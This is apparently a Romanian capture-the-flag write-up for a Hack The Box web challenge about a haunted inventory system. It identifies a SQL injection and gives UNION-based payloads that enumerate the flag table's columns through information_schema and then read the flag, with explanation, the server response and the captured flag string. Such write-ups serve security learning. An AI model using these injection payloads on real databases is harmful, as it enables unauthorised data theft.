

Sarcina:
```
On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics.
Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living.
Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's inventory system responds to those who know how to merge the right requests.
Can you brave the haunted inventory system and unravel the ghostly union of data before the spirits corrupt the world beyond?
```

Atunci când acesam pagina avem urmatoare informație:



Este clar că avem o vulnerabilitate de tipul `SQLi`. Să testam
```
' UNION SELECT 1, 2, 3, GROUP_CONCAT(column_name), NULL FROM information_schema.columns WHERE table_name = 'flag' -- '
```
UNION este folosit pentru a combina rezultatele din două interogări SQL diferite. În cazul tău, prima parte a interogării provine dintr-un query standard care caută în tabelul inventory ceva în coloana name. După ce ai închis acel query folosind un apostrof ('), injectezi o nouă interogare cu UNION pentru a adăuga rezultatul tău personalizat.
Acum, partea cu SELECT 1, 2, 3, GROUP_CONCAT(column_name), NULL este interogarea pe care o adaugi. Valorile 1, 2, 3 sunt doar de umplutură pentru a se potrivi cu structura tabelului original din inventory, care are 5 coloane. Folosești GROUP_CONCAT(column_name) pentru a concatena numele coloanelor din tabelul flag, astfel încât să afli cum se numesc coloanele din acel tabel. Valoarea NULL este folosită ca să se potrivească cu ultima coloană din tabelul inventory, adică created_at.
Partea FROM information_schema.columns specifică faptul că această interogare vrea să extragă informații despre coloane, și acest lucru se face dintr-un tabel special de sistem numit information_schema.columns. Acest tabel păstrează detalii despre structura tuturor tabelelor din baza de date. Condiția WHERE table_name = 'flag' asigură că te uiți doar la coloanele din tabelul flag.

Avem acest răspunsul dat:
```
  {
    "id": 1,
    "name": "2",
    "description": "3",
    "origin": "flag",
    "created_at": null
  }
```
Acum trebuie să citim flagul:
```
SELECT * FROM inventory WHERE name LIKE '%'  UNION  SELECT 1, 2, 3, flag, NULL  FROM flag -- '%'
```
Ne va returna flagul: `HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_41bdcda979a5f337d54412d4d6df6909}`